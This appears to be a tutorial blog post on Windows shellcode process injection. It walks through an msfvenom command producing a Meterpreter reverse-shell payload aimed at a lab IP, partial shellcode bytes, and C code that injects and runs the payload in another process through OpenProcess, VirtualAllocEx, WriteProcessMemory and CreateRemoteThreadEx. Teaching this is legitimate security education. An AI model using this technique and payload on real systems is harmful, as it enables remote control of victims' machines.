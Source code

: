 # Shellcode Injection
## Introduction
Finally, we'll be diving into some actual process injection. More specifically, **shellcode** injection. This is generally seen as the most simple form of process injection. 

## Shellcode
First let's briefly make ourselves familiar with what shellcode is. In this context, shellcode is essentially a string raw unencoded bytes that make up machine instructions. We directly place these bytes into the memory of a process such that it can execute them.  Shellcode is extremely target-specific, as the CPU directly performs the instructions. Writing shellcode by hand is not an option, instead we'll be using `msfvenom` to generate it for us.

Let's see what some shellcode might look like. We generate it by using:

```bash
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.198.128 LPORT=443 -f c --var-name=our_shellcode
```

Which gives us something like this:
```C
unsigned char payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x4d\x31\xc9\x48\x8b\x72\x50\x48\x0f"
"\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x8b"
[...]
"\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9"
"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68"
"\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f";
```

Cool, let's start crafting some source code that performs Process Injection.

>I won't explain every detail of every line of code since that would make this post way too long. For information on how the WIN32 API works and what the different arguments mean, refer to the sources I mentioned in the post about the API.
   
## Getting a handle
Using the WIN32 API we'll start by getting a so-called handle to the target process. This handle is what will identify the process to the API from here on out. To get this handle, we'll need to supply the **Process Identifier (PID)**, which we can find in a task manager and input as an argument.

```C
DWORD dwPID = NULL;
HANDLE hProcess = NULL, hThread = NULL;

if (argc < 2) {
	printf("%s usage: %s <PID>", e, argv[0]);
	return EXIT_FAILURE;
}

dwPID = atoi(argv[1]);
printf("%s trying to get a handle to the process (%ld)\n", i, dwPID);

hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID);
if (hProcess == NULL) {
	return EXIT_FAILURE;
}

```

Notice that we're giving `OpenProcess()` our `dwPID` as an argument, so that we get a handle to the desired process.

## Allocating memory space in the target process
Now that we have a handle to the target process, we can allocate some new memory inside of it. In order to do that we'll need to know how large this space must be. So at this point we'll need our shellcode ready.

```C
unsigned char payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x4d\x31\xc9\x48\x8b\x72\x50\x48\x0f"
[...]
"\xf0\xb5\xa2\x56\xff\xd5";

size_t payloadSize = sizeof(payload);

rBuffer = VirtualAllocEx(
	hProcess,
	NULL,
	payloadSize,
	(MEM_COMMIT | MEM_RESERVE),
	PAGE_EXECUTE_READWRITE
);
```

The `VirtualAllocEx()` function returns the address of the allocated memory, which we call `rBuffer`. This is the address that we'll write our shellcode to. 

## Injecting the shellcode
Here's the important part: Actually writing the shellcode to the newly created memory buffer in the target process' memory. 

```C
WriteProcessMemory(
	hProcess,
	rBuffer,
	payload,
	payloadSize,
	NULL
);
```

We supply the handle to the process, the address of our newly created buffer, the payload and the size of the payload. 

Let's see our work until now in action! As an example I'll use open up the Windows Calculator and use it as our target process, since there won't be any problem if anything goes wrong. 
![Screenshot 2025-03-05 203252](https://github.com/user-attachments/assets/bdf0bf1d-f3d4-4efc-9fe6-bcea934090ac)

We supply our program with the right PID and execute. 
![Screenshot 2025-03-05 203827](https://github.com/user-attachments/assets/ef3f15fc-57f9-4089-aa2d-44c5851764a8)

Immediately we see that we successfully created and wrote to a new memory region in the calculator's process memory. 
![Screenshot 2025-03-05 203912](https://github.com/user-attachments/assets/0eb27a79-cccf-444f-a2f9-cfd1454a0d2f)

The address of that buffer is `0x292c9950000`. Let's open up `x64dbg`, attach it to our calculator process and inspect the memory at this address.
![Screenshot 2025-03-05 204024](https://github.com/user-attachments/assets/88bcf491-e17d-4b3e-89b4-e2e75c4aa7c0)

The shellcode I created starts with `FC 48 83 E4 F0 ...`. And indeed, we find those exact bytes at that specific address in the calculators process memory. We've successfully altered another process' memory!

## Executing the injected shellcode
Now there's only one step left: actually having the process execute the injected code. To do this, we'll create a new thread for that process and point its instruction pointer to our buffer's address. That's really all there is to it.

```C
hThread = CreateRemoteThreadEx(
	hProcess,
	NULL,
	0,
	(LPTHREAD_START_ROUTINE)rBuffer,
	NULL,
	0,
	0,
	&dwTID
);
```

We provide the process handle and the `rBuffer` address and the API returns a handle to the thread. The only other thing worth noting is the cast of `rBuffer` to `LPTHREAD_START_ROUTINE`. This is just how the API function wants to receive `rBuffer` and except for some data alignment stuff, nothing changes.

To make sure we actually see the execution of this shellcode happen, we'll use the following line of code:

```C
WaitForSingleObject(hThread, INFINITE);
```

Quite simply put, the first line waits until the execution of this thread has completed and it waits for an infinite amount of time. 
